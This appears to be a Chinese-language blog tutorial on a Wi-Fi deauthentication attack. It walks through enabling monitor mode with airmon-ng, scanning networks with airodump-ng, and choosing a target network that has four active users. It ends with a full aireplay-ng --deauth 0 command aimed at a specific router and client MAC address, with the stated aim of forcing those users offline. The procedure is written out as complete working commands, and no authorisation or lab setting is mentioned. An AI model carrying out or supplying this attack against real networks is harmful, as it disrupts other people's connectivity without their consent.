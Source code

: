 ```yaml
---
title: Aireplay Wi-Fi攻击
date: 2022-03-28 12:12:43
tags:
---
```


## 前期准备
	Kaili虚拟机
	带监听功能的无线网卡

## 调试网卡
	进入Kaili虚拟机
	插上网卡
	打开终端 测试当前的网卡状态
		iwconfig
 ![](/images/网卡状态1.png)
<!--more-->
	可以看到 Mode:Manage 代表并未开启监听模式 (monitor)
	输入开启指令	
		sudo airmon-ng start wlan0
	再次查看
		iwconfig
 ![](/images/网卡状态2.png)

	可以看到 Mode:Monitor 代表已经开启监听模式

## 攻击过程
	扫描Wi-Fi频段
		sudo airodump-ng wlan0mon 
 ![](/images/扫描.png)      

	可以看到 扫描出了很多Wi-Fi频段
	BSSID-路由器mac地址	STATION-用户mac地址	CH-通信通道	PWR-信号强度
	下方活跃的目标作为选择的攻击对象 这里我们依靠BSSID 选择8848作为攻击对象
		当有合适的目标出现后
			control + C 退出扫描
	单独对8848监听		
		sudo airodump-ng -w hack -c 2 --bssid 50:0F:F5:EF:BC:51 wlan0mon
						-w 保存的文件名 -c 通信通道 
 ![](/images/单独扫描.png)    

	可以看到 STATION下方有四个活跃的用户在使用
	开始攻击 让用户强制下线 无法连接上WIFI
		sudo aireplay-ng --deauth 0 -a 50:0F:F5:EF:BC:51 -c 5E:27:66:91:5F:FC wlan0mon
 ![](/images/攻击.png)

	通过不断得发送错误的ACK响应包 让用户强制下线 达到攻击的效果
 ![](/images/攻击效果.jpeg)





















 											

	


